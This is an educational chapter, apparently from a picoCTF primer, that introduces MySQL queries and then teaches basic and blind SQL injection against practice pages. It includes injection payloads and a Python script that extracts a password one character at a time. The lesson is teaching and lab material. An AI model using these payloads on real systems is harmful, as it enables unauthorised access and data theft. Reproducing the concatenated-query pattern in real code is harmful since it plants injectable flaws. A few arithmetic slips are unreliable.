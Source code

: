 
== Infiltrating in a database 
[discrete]
===== Samuel Sabogal Pardo

{empty}

'''

=== SQL

SQL is used to create and manipulate a very common type of databases called relational databases. SQL stands for Structured Query Language. With it you can create tables in a database, store data on them, and run different queries that let you extract and analyze data. We are going to see some examples in a relational database management system (RDBMS) called MySQL. Once you learn the basics of SQL in any RDBMS, it is easy to apply them in others. We are going to see a very quick introduction so you are able to understand the hacks. Let's begin.

As we said, information is stored in tables. The following is an example of a table that we might call "user":

[cols=",,,,",options="header",]
|===
|*Id* |*Name* |*Last Name* |*Phone* |*Password*
|1 |Jane |Doe |200 111 1111 |123456
|2 |Arpit |Gupta |200 111 1111 |hello
|3 |Melania |Clinton |201 333 3333 |password
|===

NOTE: The passwords in this table are just an example. In real life, you should never store the password directly in the database, as you will learn in the crypto section. Additionally, you should never use a password like those, they are too weak.

There are several online tools that you can easily find on Google to learn languages. For example, access the following web site:

https://paiza.io/en/projects/new?language=mysql[https://paiza.io/en/projects/new?language=mysql, window="_blank"]

We can execute MySQL statements online. So, let's create our table from the previous example on it. First, delete the code present in the editor. You should be seeing something like this:

[.text-center]
.Online MySQL engine
image::images/3image7.png[image,width=624,height=552]

Now, you can create the table using the following statement:

create table user (id integer, name text, lastname text, phone text, password text);

Analyze the statement carefully. This statement creates a table called "user" with five columns. The first column is "id", and has the data type int, which means integer. The other columns are "name", "lastname", "phone", and "password", which are of datatype text. In datatype integer, as you might guess, you can only store integers. In a datatype text, you can store strings. Put that statement in the SQL editor and hit the button "Run". If it was successful, you will see a green bar on top of the editor with the label "success". When you create tables in SQL, they are stored and become available to insert future data on them. However, in this online editor tables just survive in a single run, so in the same script we will have to create the table, insert the data, and query the data.

So far we have created the table but it is empty. To insert a row, add the following statement:

insert into user (id, name, lastname, phone, password) values (1, 'Jane', 'Doe', '200 111 1111', '123456');

As you can see, the statement is self explanatory. It will insert each of those values in each column of user conforming a new row. Hit run, and verify it was successful. It should look like this:

[.text-center]
.Create table and insert
image::images/3image16.png[image,width=624,height=46]

Now, add the following line that will query the data you have inserted so far:

select * from user;

The * means that you want to see the content of all the columns. Hit Run.

[.text-center]
.Query data by running select sentence
image::images/3image12.png[image,width=624,height=146]

You can see the results at the end. Now insert the two rows missing to conform our 3 row table:

[.text-center]
.Inserting the rows missing
image::images/3image24.png[image,width=624,height=177]

If you are interested in returning only some particular columns, you can list them instead of using the *. For example, let's return only the name and lastname:

select name, lastname from user;

You will see:

[.text-center]
.Querying only full name
image::images/3image10.png[image,width=624,height=154]

We can make our query more granular if we add a "where" clause like this:

select * from user *where id=2*;

Look at the query carefully. We already know that the * means we want to see the content of every column. In the 'where' clause we restrict which rows we want to return. What row do you think is going to return that query?

If you thought about this row:

[cols=",,,,",]
|===
|2 |Arpit |Gupta |200 111 1111 |hello
|===

You were right. That is because that row is the one with the value of 2 in its id. You could filter by any other field. If you are filtering a field of type text, you have to enclose the value in single quotes. Remove the previous select statement, and add:

select * from user where phone='200 111 1111' ;

You should be seeing the following:

[.text-center]
.Filtering by a specific phone number
image::images/3image21.png[image,width=624,height=60]

Run it. If you look at the rows inserted. 'Jone Doe' had the same phone number as 'Arpit Gupta'. The select statement should return 2 rows like this:

[.text-center]
.Result of filtering by a specific phone number
image::images/3image9.png[image,width=624,height=174]

We can also filter by two fields in the same query using the logical operator 'and' in the following manner:

select * from user where phone='200 111 1111' and name='Jane';

After the "where" clause, you can put several boolean expressions. As you learned previously in the programming chapter, when you use "and" it means that both expressions have to be true so the expression is true. The query should return this:

[.text-center]
.Result of filtering by a specific phone number and name
image::images/3image3.png[image,width=624,height=172]

Now, add another 'and' operator, to try to filter using a name that does not exist in the table:

select * from user where phone='200 111 1111' and name='Jane' and name='Mario';

The query should return no results, because 'Mario' does not exist in our database:

[.text-center]
.Filtering by a name that is not present in the data we inserted
image::images/3image29.png[image,width=624,height=124]

Now, as an experiment add another filter, but this time use "or" instead of "and". For example, run:

select * from user where phone='200 111 1111' and name='Mario' or name='Arpit';

You will see:

[.text-center]
.Filtering by two different names using OR
image::images/3image19.png[image,width=624,height=138]

What happened here? Analyze the query carefully. You know there is no one called Mario in our table. Why in the world does the query return a row? If you think about it, any expression, no matter how long it is, if results in False, but then you do "or" with something that is true, it will be true. For example:

1=2 and 3=2 and 47=1 or 1=1

Will be true, because (1=2 and 3=5 and 45=1) is false, but (1=1) is true. This is fundamental for the basic SQL injection attack.

Try the following:

select * from user where phone='200 111 1111' and name='Mario' *or 1=1*;

[.text-center]
.Result of filtering by something specific but using OR with something that is always true
image::images/3image20.png[image,width=624,height=148]

You just returned all the results! That happens, as you might guess, because "1=1" is always true. As an exercise, create a new table with new data and create new queries.

=== Basic SQL injection

The objective of the basic SQL injection we are learning is to try to inject an "or" expression that is always true. In that way the server code constructs a query using the user input that deceives the program into it returning the whole table. That happens when a program is concatenating strings to construct a query in the server code. The following is an example in PHP:

"[lime]#SELECT * FROM user where name='#".$name.""[lime]#' and password='#".$password.""[lime]#';#"

The green part of the query will be concatenated with the value of the variables to form the final query. Let's suppose that $name is equal to "samuel", and $password is equal to "hello", the query would result in

SELECT * FROM user where name='samuel' and password='hello';

What would happen if the password contains a single quote? That might break the syntax of the SQL query. Even worse, it could be used to inject your own sql. For example, if the value of $password is:

*' or '1'='1*

The resultant query would be:

[lime]#SELECT * FROM user where name='samuel' and password='#' *or '1'='1*[lime]#';#

Which is a perfectly valid query that will return the whole table. Use what you just learned here to return all the users:

https://primer.picoctf.org/vuln/web/basicsql.php[https://primer.picoctf.org/vuln/web/basicsql.php, window="_blank"]


This kind of vulnerability is rarely present in applications. One that is more common, is the blind sql injection.

=== Blind SQL injection

In this kind of vulnerability, the application does not return all the data to you. However, it is enough that the application shows an error message saying that no data was found or that an error has occurred, to figure out the content we are looking for.

To illustrate this, we are going to attack the following page:

https://primer.picoctf.org/vuln/web/blindsql.php[https://primer.picoctf.org/vuln/web/blindsql.php, window="_blank"]

If we input our previous injection in the password field:

*' or '1'='1*

We will see that the application found something and shows the message "REGISTER FOUND":

[.text-center]
.Blind SQL injection
image::images/3image28.png[image,width=624,height=205]

Internally, the injection deceives the application into returning records, but the application did not show us those records. That's why it is called Blind SQL injection. We can inject SQL, but we cannot see the result!

What can we do about this? We will try to inject a SQL to guess one character of a field at a time. Suppose we want to guess the first character of the password. If we don't guess it, the application will return "NOTHING FOUND". If we guess it, it will return "REGISTER FOUND".

Note, this is fundamental to be able to guess only one character at a time. Trying to guess a whole string at the same time, is much harder. Suppose a word is made up by a combination of the 26 characters of the alphabet. To guess only the first letter, we only have to try 26 values. However, if we try to guess the whole word, is much more complicated. To illustrate this, suppose we have a word of two letters. If we can guess one at a time, we will need at most 26 trials for the first one, and 26 trials for the second one, for a total of 52 trials. On the other hand, if we try to guess both letters at a time, we will need 26*26 trials, which is 626 trials, because they can have different combinations. If we add more characters, guessing the whole word becomes much harder because it would emerge too many possible words. Nonetheless, guessing one letter at a time, will keep being only 26 trials for each letter. The blind SQL injection is based on that fact, it will try to inject a query that only compares one character at a time.

To be able to do that, you need to know the name of the column you are trying to guess. This is not that hard, because in many cases you can infer the name of the database column based on the name of the html input. In other cases, you can leak the name if an error occurs inside the application, and in the error message the application shows the value of the columns.

For the page we are attacking in this example the names are the same as the html input. One column is called 'username', and the other one is called 'password'.

So far, you know that if you inject:

*' or '1'='1*

It will return results, but you are not learning any information. We know two column names, 'username' and password. For this example, suppose you know a user called 'picoctf' and you want to get the password from that user. To narrow down the query to the row in which the user 'picoctf' information is stored, you could use:

*' or username='picoctf*

Note that we do not use the *'1'='1* anymore because we want a statement that will filter only one user. If you inject this on the password field from the web page, you will still see:

[.text-center]
.Register found after injection
image::images/3image14.png[image,width=624,height=130]

Remember that in our injection, if the part at the right of the "or" is true, it will return results. It is true that username is equal to 'picoctf' only in the row on the picoctf!

Now we will add the part that compares the first character of the password. We can do that using an embedded query. An embedded query is a query inside a query. Our embedded query highlighted in green, will simply return the first character of the password. We will compare that first character with the character 'a', so we are guessing that the first character is 'a':

*' or username='picoctf' and [lime]#(select substr(password, 1, 1))#='a*

If you inject this, you will see that nothing is found:

[.text-center]
.Nothing found after comparing with single character
image::images/3image8.png[image,width=624,height=206]

This is because we did not guess the first character. If you keep trying different characters, you will find that the first character of the password is 'f', when you inject this:

*' or username='picoctf' and [lime]#(select substr(password, 1, 1))#='f*

And see as a result this:

[.text-center]
.Register found after comparing with single character
image::images/3image5.png[image,width=624,height=185]

You could possibly find the whole password manually, but it would take too much effort. On the other hand, you may want to obtain all the passwords in the database, or even all the fields from the database! This same process can be applied for any field… In most of the SQL engines there is a system table that contains the names of all tables and columns, so once we find a SQL injections databases we might be able to leak the whole database. For this exercise we will only obtain one password. To be more efficient, we will write a python script that does the job for us. Suppose we found the name of the table in some way. The script is the following:

[source, python]
----
import requests
from string import printable

accum = ""
for i in range(40):
  for letter in printable:
    accum += letter

    r = requests.post("https://primer.picoctf.org/vuln/web/blindsql.php?&username=WeDontCare&password=' or '"
    + letter +"'=( select substr(binary password,"+str(i)+",1) from pico_blind_injection where id=1 ) and ''= '")

    if 'NOTHING FOUND...' in r.text:
      accum = accum[:-1]
      print("nope")
    else:
      print(f"We found the character: {letter}")

print(accum)
----


This script is just one of the many ways in which a blind SQL injection is done. With your knowledge of Python and SQL, you should be able to understand the script if you read it carefully. Note the following:

* 'Printable' is just a string with all the printable ASCII characters, and we iterate over them.

* 'Binary' in mysql context, is just a way to specify the we want to make case sensitive comparisons. If we do not use it, we would not be able to identify if a character is lowercase or uppercase.

* We are sending GET parameters to the web site. For this reason, we can encode them in the URL.

* We put the *select '* at the end of the query to handle the closing single quote.

* 'NOTHING FOUND...' Is the message printed in the html, so if that is present in the html then a wrong letter was guessed.

* To clear your doubts, experiment in the SQL editor with similar queries, or do prints on the python script to make sure you understand every part of it.

Depending on the SQL engine, there can be several ways to inject SQL. Even Frameworks that handle the queries for you, might have vulnerabilities in some versions, or because they are used incorrectly by developers.

Keep up the good work!
